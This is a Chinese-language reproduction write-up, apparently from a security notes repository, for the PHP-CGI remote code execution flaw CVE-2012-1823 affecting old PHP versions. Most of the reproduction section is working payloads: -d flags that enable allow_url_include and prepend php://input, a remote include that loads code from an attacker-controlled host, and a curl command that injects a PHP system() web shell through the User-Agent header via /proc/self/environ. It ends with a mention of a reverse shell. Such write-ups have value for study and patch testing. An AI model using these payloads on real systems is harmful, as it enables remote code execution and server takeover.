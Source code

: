 # （CVE-2012-1823）PHP-CGI远程代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

php < 5.3.12 or php < 5.4.2

### 三、复现过程

cgi模式下有如下可控命令行参数可用：

* -c 指定php.ini文件（PHP的配置文件）的位置
* -n 不要加载php.ini文件
* -d 指定配置项
* -b 启动fastcgi进程
* -s 显示文件源码
* -T 执行指定次该文件
* -h和-? 显示帮助
​ 
​那么最简单的利用方式就是-s可以直接显示源码
​ 
​ ![](images/15897701848465.png)


-d参数好像就文件包含吧

payload:


```bash
-d+allow_url_include%3don+-d+auto_append_file%3dphp://input
需要注意的是 =要用%3d(url编下码) 空格用+号代替或者%20
-d+allow_url_include%3don+-d+auto_prepend_file%3dphp://input
上面两种都行只不过一个在页面顶部加载文件一个是页面底部加载文件


 
auto_prepend_file 在页面顶部加载文件

auto_append_file  在页面底部加载文件 
```

![](images/15897702040771.png)


远程包含:

payload:


```bash
-d allow_url_include%3don+-d+auto_prepend_file%3dhttp://ip/1.txt
```

![](images/15897702196125.png)


本地包含:

payload:


```bash
curl -H "USER-AGENT:<?php echo system($_GET["hk"]);?>" url -d auto_prepend_file%3d/proc/self/environ+-n
```

这里介绍下/proc/self/environ在文件包含中的作用

如果服务器已过响应时间，还可以通过LFI重新利用，包括存储在User_Agent的/proc/self/environ文件，我们将把我们的PHP代码放置其中用于执行CMD命令 

我们可以把php代码放进user-agent里然后进行本地包含

但是我这里用bp修改user-agent不知道为什么不行 (一直显示超时)

![](images/15897702455968.png)


不过我们还是可以进行本地包含的 使用curl来完成

payload:


```bash
curl -H "USER-AGENT:" https://url:8080/index.php?-d+auto_prepend_file%3d/proc/self/environ+-n -o xxx.txt
```

![](images/15897702628312.png)


当然也可以使用之前提到的反弹shell